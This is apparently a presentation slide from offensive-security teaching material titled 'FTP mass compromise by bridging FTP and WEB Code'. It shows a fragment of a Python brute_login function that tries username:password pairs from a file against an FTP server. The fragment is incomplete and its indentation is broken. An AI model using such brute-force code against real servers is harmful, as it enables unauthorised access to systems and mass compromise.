

# FTP mass compromise by bridging FTP and WEB Code
finally:
        ftp.quit()
def brute_login(hostname, passwd_file):
    with open(passwd_file) as file:
        ftp = ftplib.FTP(hostname)
        for line in file.readlines():
            time.sleep(1)
            username = line.split(':')[0]
            password = line.split(':')[1].strip('\r').strip('\n')
			 print(f'[+] Trying: {username}/{password}')